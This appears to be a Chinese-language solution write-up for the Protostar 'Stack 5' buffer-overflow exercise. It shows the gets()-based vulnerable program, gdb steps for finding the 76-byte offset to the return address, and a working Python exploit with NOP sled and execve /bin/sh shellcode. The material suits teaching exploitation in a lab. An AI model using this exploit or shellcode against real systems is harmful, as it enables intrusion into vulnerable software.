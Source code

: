 # Stack 5

## （一） 题目：

\#include &lt;stdlib.h&gt;

\#include &lt;unistd.h&gt;

\#include &lt;stdio.h&gt;

\#include &lt;string.h&gt;

int main\(int argc, char \*\*argv\)

{

char buffer\[64\];

gets\(buffer\);

}

## （二）解题过程：

gdb 调试 stack5程序，在ret函数上下断点。

b 16

r

输入aaaaaaaaa

i r

print $esp

print $ebp

查看此时的内存布局 ，找到buff 和 ret的距离就可以计算出需要填充多少字节，恰好覆盖到ret地址，返回地址后面是argc argv

esp    buffer开始         buffer结束（ebp  ret\)   argc argv

esp                    esp+0x10        ebp                 ret                   argc              argv

0xbffffcd0     0xbffffce0      0xbffffd28    0xbffffd2c   0x00000001   0xbffffdd4

![](/png/15.png)

如图所示：构造payload

buff\[0\]+ 0x4c+ 返回地址+ shellcode

exploit

python -c "print 'a'\*76+'\x30\xfc\xff\xbf'+'\x90'\*20+shellcode

import struct

pad = "\x41" \* 76

EIP = struct.pack\("I", 0xbffffd30\)

shellcode = "\x31\xc0\x31\xdb\xb0\x06\xcd\x80\x53\x68/tty\x68/dev\x89\xe3\x31\xc9\x66\xb9\x12\x27\xb0\x05\xcd\x80\x31\xc0\x50\x68//sh\x68/bin\x89\xe3\x50\x53\x89\xe1\x99\xb0\x0b\xcd\x80"

NOP = "\x90" \* 100

print pad + EIP + NOP + shellcode

![](/png/10.png)

![](/png/16.png)

Ref：

[https://xz.aliyun.com/t/3908](https://xz.aliyun.com/t/3908)

https://0xrick.github.io/binary-exploitation/bof5/

